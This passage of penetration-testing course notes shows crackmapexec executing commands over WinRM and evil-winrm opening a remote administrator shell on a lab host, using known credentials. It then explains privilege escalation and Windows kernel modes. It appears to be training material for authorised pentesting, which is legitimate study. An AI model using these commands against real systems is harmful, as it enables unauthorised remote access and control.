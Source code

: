 <br />

**execute commands with winRM credentials using crackmapexec**

```bash
root@attackdefense:~# crackmapexec winrm 10.4.19.50 -u administrator -p tinkerbell -x whoami
WINRM       10.4.19.50      5985   NONE             [*] http://10.4.19.50:5985/wsman
WINRM       10.4.19.50      5985   NONE             [+] None\administrator:tinkerbell (Pwn3d!)
WINRM       10.4.19.50      5985   NONE             [+] Executed command
WINRM       10.4.19.50      5985   NONE             server\administrator

```

<br />

**get cmd shell with `evil-winrm.rb` with winRM credentials**

```bash
root@attackdefense:~# evil-winrm.rb -u administrator -p tinkerbell -i 10.4.19.50 
Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
server\administrator

```

<br />

---

### Windows Privilege Escalation

#### Privilege Escalation

- Privilege escalation is the process of exploiting vulnerabilities or misconfigurations in systems to elevate privileges from one user to another, typically to a user with administrative or root access on a system.
- Privilege escalation is a vital element of the attack life cycle and is a major determinant in the overall success of a penetration test.
- After gaining an initial foothold on a target system you will be required to elevate your privileges in order to perform tasks and functionality that require administrative privileges.
- The importance of privilege escalation in the penetration testing process cannot be overstated or overlooked. Developing your privilege escalation skills will mark you out as a good penetration tester.

<br />

#### Windows Kernel

- A Kernel is a computer program that is the core of an operating system and has complete control over every resource and hardware on a system. It acts as a translation layer between hardware and software and facilitates the communication between these two layers.
- Windows NT is the kernel that comes pre-packaged with all versions of Microsoft Windows and operates as a traditional kernel with a few exceptions based on user design philosophy. It consists of two main modes of operation that determine access to system resources and hardware:
  - User Mode – Programs and services running in user mode have limited access to system resources and functionality.
  - Kernel Mode – Kernel mode has unrestricted access to system resources and functionality with the added functionality of managing devices and system memory.

